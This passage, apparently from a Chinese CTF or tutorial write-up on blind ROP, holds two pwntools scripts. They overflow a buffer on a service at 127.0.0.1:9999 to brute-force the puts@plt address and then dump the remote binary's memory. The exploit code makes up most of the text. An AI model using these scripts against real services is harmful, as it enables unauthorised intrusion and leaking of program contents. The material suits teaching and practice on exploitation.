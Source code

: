 找到了可用的gadgets

# 寻找put地址

原理是打印出ELF头的几个字节，如果可以，就是了

```python
from pwn import *
##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4005c0
addr = 0x400740

def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1

brop_gadget=0x4007ba
rdi_ret=brop_gadget+9
get_puts_addr(72,rdi_ret,stop_gadget)
```

# dump源程序

使用发现的puts地址将程序dump下来

```python
from pwn import *
def dump(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None

##length = getbufferflow_length()
```